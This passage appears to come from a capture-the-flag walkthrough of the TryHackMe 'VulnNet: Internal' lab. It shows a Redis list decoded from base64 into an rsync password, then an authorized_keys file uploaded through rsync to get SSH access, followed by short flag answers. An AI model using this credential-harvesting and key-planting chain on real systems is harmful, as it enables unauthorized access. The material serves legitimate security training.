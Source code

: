 ![0xskar](/assets/vulnnet-internal01.png)

- ``LRANGE authlist 1 100`` give us a base64 to decode

```
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/VulnNet]
└─$ base64 -d authlist.b64               
Authorization for rsync://rsync-connect@127.0.0.1 with password Hcg3HP67@TW@Bc72v
```

- ``rsync --list-only rsync://rsync-connect@10.10.114.111/files``
- ``rsync --list-only rsync://rsync-connect@10.10.114.111/files/sys-internal/``
- ``rsync authorized_keys rsync://rsync-connect@10.10.114.111/files/sys-internal/.ssh/``

seeing that is the the users home dir we can upload authorized key and ssh in

- ``ssh-keygen -t rsa``

and finally

- ``ssh sys-internal@10.10.114.111 -i vulnnet``

* * * 

## What is the services flag? (services.txt)

- located in ``/temp`` in the smb share

* * * 

## What is the internal flag? ("internal flag")

![0xskar](/assets/vulnnet-internal01.png)

